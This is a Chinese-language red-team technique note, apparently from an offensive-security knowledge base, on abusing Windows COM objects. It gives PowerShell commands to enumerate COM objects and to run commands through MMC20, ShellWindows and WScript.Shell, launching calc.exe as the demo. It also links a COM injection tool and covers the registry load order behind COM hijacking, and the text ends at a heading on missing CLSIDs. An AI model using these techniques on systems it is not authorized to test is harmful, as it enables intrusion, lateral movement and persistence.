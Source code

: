 ### COM直接利用

#### 命令执行

枚举COM对象

```powershell
gwmi Win32_COMSetting | ? { $_.progid } | sort | ft ProgId,Caption,InprocServer32
```

COM对象创建（powershell）

```powershell
$handle = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1"))
$handle | Get-Member
```

常用于命令执行的COM组件

```powershell
# MMC
$handle = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1"))
$handle.Document.ActiveView.ExecuteShellCommand("cmd", $null, "/c calc", "7")

# ShellWindows
$hb = [activator]::CreateInstance([type]::GetTypeFromCLSID("9BA05972-F6A8-11CF-A442-00A0C90A8F39")) 
$item = $hb.Item() 
$item.Document.Application.ShellExecute("cmd.exe","/c calc.exe","c:\windows\system32",$null,0)

$shell = [Activator]::CreateInstance([type]::GetTypeFromCLSID("72C24DD5-D70A-438B-8A42-98424B88AFB8"))
$shell.Run("calc.exe")
```

#### 计划任务

见计划任务相关攻击方法文档（也在该目录下）

#### 进程注入

[GitHub - mdsecactivebreach/com_inject](https://github.com/mdsecactivebreach/com_inject)

### COM劫持

COM的加载顺序为

```
HKCU\Software\Classes\CLSID
HKCR\CLSID
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\shellCompatibility\Objects\
```

因此也存在类似DLL劫持的问题

#### 利用缺失的CLSID

